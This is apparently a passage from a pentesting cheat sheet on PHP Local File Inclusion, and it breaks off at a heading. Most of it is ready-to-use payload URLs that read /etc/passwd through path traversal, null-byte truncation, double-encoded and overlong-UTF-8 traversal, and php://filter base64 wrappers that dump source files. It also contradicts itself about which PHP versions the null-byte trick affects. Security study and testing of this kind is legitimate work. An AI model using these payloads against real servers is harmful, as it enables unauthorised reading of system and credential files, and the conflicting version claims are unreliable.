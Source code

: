 Bypass

```php
<http://127.0.0.1/index.php?language=./languages/../../../../etc/passwd>

```

**Null Bytes**

Pre-5.5 PHP versions are vulnerable to null byte injections (`%00`). Adding `%00` truncates appended extensions (/`etc/passwd%00.php`) and includes only the path before the null byte `(**/etc/passwd**`).

PHP

This is **solved since PHP 5.4**

```php
<http://127.0.0.1/index.php?language=/etc/passwd%00>

<http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00>

<http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd>

```

### PHP Filters for Exploiting LFI

#### Leveraging PHP Filters

[PHP Filters](https://www.php.net/manual/en/filters.php) serve as specialized PHP wrappers that allow input to be filtered according to specified criteria. For LFI attacks, the `php://filter/` wrapper is particularly useful

#### PHP Filter Types

#### **php://filter**

1. **String Filters:** Modify strings based on specified rules.
2. **Conversion Filters:** Convert data between different formats (`convert.*`), useful for altering how data is read from files.
3. **Compression Filters:** Compress or decompress data on the fly (`zlib.*`).
4. **Encryption Filters:** Encrypt or decrypt data (`mcrypt.*`, `mdecrypt.*`).

```php
#encodeing
php://filter/convert.base64-encode/resource=<filename.php> #php,json,py etc..

#Decoding
php://filter/convert.base64-decode/resource=<filename.php>

#php://f
echo file_get_contents("php://fd/3");
$myfile = fopen("/etc/passwd", "r");
```

#### **From existent folder**
